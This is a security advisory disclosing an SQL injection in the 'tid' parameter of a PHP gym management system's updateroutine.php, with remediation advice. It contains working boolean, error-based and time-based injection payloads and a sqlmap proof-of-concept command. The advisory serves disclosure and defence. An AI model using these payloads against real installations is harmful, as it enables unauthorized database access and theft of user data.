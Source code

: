 # **Security Advisory: SQL Injection in Gym Management System (PHP) v1.0**
**Discovered By:** <font style="color:rgb(51, 51, 51);">takakie</font>

---

## **Affected Product**
+ **Product Name**: Gym Management System in PHP with Source Code  
+ **Version**: v1.0  
+ **Vulnerable File**: `/dashboard/admin/updateroutine.php`  
+ **Parameter**: `tid`
+ **Vendor Homepage**: [Gym Management System](https://codezips.com/php/gymmanagementsytem/)  
+ **Download Link**: [Source Code](https://codeload.github.com/codezips/gym-management-system-php/zip/master)

**No authentication required** to exploit this vulnerability.

---

## **Overview**
A critical SQL injection vulnerability exists in the `tid`parameter within `/dashboard/admin/updateroutine.php`. Attackers can inject arbitrary SQL code via specially crafted values, bypassing input validation. This could lead to unauthorized database access, data manipulation, and potentially full system compromise.

---

## **Technical Details**
### Vulnerability Type
+ **SQL Injection**    
    - boolean-based
    - Error-based  
    - Time-based blind

### Sample Payloads
```bash
# boolean-based
tid=1 AND 5935=(SELECT (CASE WHEN (5935=5935) THEN 5935 ELSE (SELECT 7128 UNION SELECT 3386) END))-- -&routinename=11&day1=11&day2=11&day3=11&day4=11&day5=11&day6=11&submit=Update

# error-based
tid=1 AND GTID_SUBSET(CONCAT(0x716b6b7071,(SELECT (ELT(2744=2744,1))),0x71707a7071),2744)&routinename=11&day1=11&day2=11&day3=11&day4=11&day5=11&day6=11&submit=Update

# time-based blind
tid=1 AND (SELECT 8904 FROM (SELECT(SLEEP(5)))BpQD)&routinename=11&day1=11&day2=11&day3=11&day4=11&day5=11&day6=11&submit=Update

```

### Proof of Concept (PoC)
```bash
sqlmap -u "192.168.10.5:2227/dashboard/admin/updateroutine.php" --cookie="PHPSESSID=l80tjseddr9a6vtiltdkocmspt" --data="tid=1&routinename=11&day1=11&day2=11&day3=11&day4=11&day5=11&day6=11&submit=Update" --batch --level=5 --risk=3 --dbms=mysql
```

**Screenshots**:  
![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1738764040309-4d047c38-38de-4b08-a7e6-43eda06dcdd8.png)

---

## **Impact**
+ **Database Compromise**: Attackers can read, modify, or delete data.  
+ **Data Leakage**: Sensitive customer/payment information could be exposed.  
+ **System Interruption**: Malicious queries may degrade performance or crash the application.  
+ **Privilege Escalation**: Potential elevation of privileges leading to broader system takeover.

---

## **Recommendations**
1. **Use Prepared Statements / Parameter Binding**  
    - Separate SQL logic from user-supplied data to prevent code injection.
2. **Enforce Strict Input Validation**  
    - Validate and sanitize incoming fields (`tid`) against unexpected characters or formats.
3. **Apply the Principle of Least Privilege**  
    - Configure database users with minimal privileges. Avoid high-privilege accounts for routine queries.
4. **Schedule Regular Security Audits**  
    - Conduct routine code reviews, penetration testing, and dependency checks to catch new or recurring flaws.

---

## **References**
+ [Gym Management System Homepage](https://codezips.com/php/gymmanagementsytem/)  
+ [OWASP: SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)  
+ [sqlmap Project](https://sqlmap.org/)

---

**Disclaimer:**  
This advisory is intended for responsible disclosure. Any unauthorized exploitation of the described vulnerability may violate applicable laws. Stakeholders and the vendor are strongly encouraged to apply remediation measures immediately to ensure data protection and maintain system integrity.

